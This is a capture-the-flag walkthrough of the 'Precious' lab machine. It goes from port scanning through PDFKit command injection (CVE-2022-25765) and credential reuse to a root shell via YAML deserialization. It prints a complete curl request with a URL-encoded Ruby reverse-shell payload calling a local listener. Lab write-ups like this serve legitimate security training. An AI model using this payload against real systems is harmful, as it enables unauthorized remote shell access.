The engagement started with a full port enumeration in order to identify exposed services on the target host.
nmap -sV -sC -p- --open 10.10.11.189 -T4 -A -vv -oN scan.txtThe scan revealed two accessible services: SSH and HTTP.
The target IP was added to the /etc/hosts file to properly resolve the virtual host.
At first glance, the web application accepts a URL as input and converts it into a PDF document.

Endpoint enumeration was performed against the web service to identify additional attack surface.
gobuster dir -u http://precious.htb/ -w /usr/share/wordlists/dirb/big.txtThe request was intercepted using Burp Suite to better understand how the application processes input.
The response indicated that remote URLs were not accepted, so a local HTTP server was created to serve content to the application.
After submitting a locally hosted URL, the application successfully generated a PDF file.

The downloaded PDF was analyzed using exiftool to inspect its metadata.
Within the metadata, the version of the tool used to generate the PDF was identified.
Researching this version revealed that it is vulnerable to command injection, specifically CVE-2022-25765.
The PdfKit namespace provides functionality for reading, writing, and annotating PDF documents, and this vulnerability allows command execution during PDF generation.
To exploit the vulnerability, a local HTTP server was first started to host a crafted payload.

A Netcat listener was then launched to receive the reverse shell.

A malicious request was sent using curl, embedding a Ruby payload to establish a reverse shell.
curl 'TARGET_ADDRESS' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: TARGET_ADDRESS' -H 'Connection: keep-alive' -H 'Referer: TARGET_ADDRESS' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'The reverse shell connection was successfully established.
Once inside the system, a local user named henry was identified, indicating the need for lateral movement.

The user flag was located in henry’s home directory, but it was not readable with the current privileges.

Configuration directories were reviewed in search of credentials.

No useful information was found in the initial configuration files.
Further searching within Ruby-related directories revealed credentials belonging to the user henry.

Using these credentials, SSH access as henry was obtained, allowing retrieval of the user flag.
With access as henry, sudo privileges were enumerated.

The output showed that a Ruby script could be executed with root privileges.
The script was inspected to understand its functionality.
The script makes use of YAML, which introduces a potential YAML deserialization vulnerability.
This script is intended for Ruby package management.
A specific section of the script handling YAML input was identified as particularly interesting.

A malicious YAML file was created under /dev/shm, which would be executed by the Ruby interpreter.

The privilege escalation payload was crafted.
Executing the script initially resulted in an error, and the output of the id command was not fully displayed.

Despite the error, command execution as root was confirmed.

The user was now part of the root group, and by executing a shell with the -p option, an effective root shell was obtained with UID and GID set to root.
